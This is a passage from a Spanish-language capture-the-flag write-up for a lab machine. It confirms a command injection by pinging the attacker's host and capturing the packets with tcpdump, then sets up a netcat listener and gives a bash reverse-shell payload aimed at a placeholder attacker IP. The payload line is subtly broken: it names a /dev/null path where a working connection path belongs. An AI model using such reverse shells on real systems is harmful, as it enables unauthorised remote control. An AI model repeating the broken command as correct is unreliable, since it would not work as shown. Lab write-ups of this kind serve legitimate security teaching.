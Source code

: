 No nos mostró nada, pero tampoco veo un error reflejado, por lo que es posible que se esté ejecutando el comando.

Vamos a mandarnos una **traza ICMP** para comprobar que funciona la ejecución de comandos.

Primero, inicia **tcpdump** para que comience a capturar **paquetes ICMP**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Ahora, usamos **ping** y nos enviamos 2 paquetes:

<p align="center">
<img src="/assets/images/THL-writeup-puchero/Captura15.png">
</p>

Observa **tcpdump**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
16:21:32.621341 IP 192.168.10.110 > Tu_IP: ICMP echo request, id 4211, seq 1, length 64
16:21:32.621372 IP Tu_IP > 192.168.10.110: ICMP echo reply, id 4211, seq 1, length 64
16:21:33.623220 IP 192.168.10.110 > Tu_IP: ICMP echo request, id 4211, seq 2, length 64
16:21:33.623247 IP Tu_IP > 192.168.10.110: ICMP echo reply, id 4211, seq 2, length 64
^C
4 packets captured
4 packets received by filter
0 packets dropped by kernel
```
Excelente, podemos aplicar una **Reverse Shell**.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Utiliza la siguiente en la petición:
```bash
bash -c 'bash -i >& /dev/null/Tu_IP/443 0>&1'
```

Recuerda **URL encodear** todo este comando y luego envíalo:

<p align="center">
<img src="/assets/images/THL-writeup-puchero/Captura16.png">
</p>
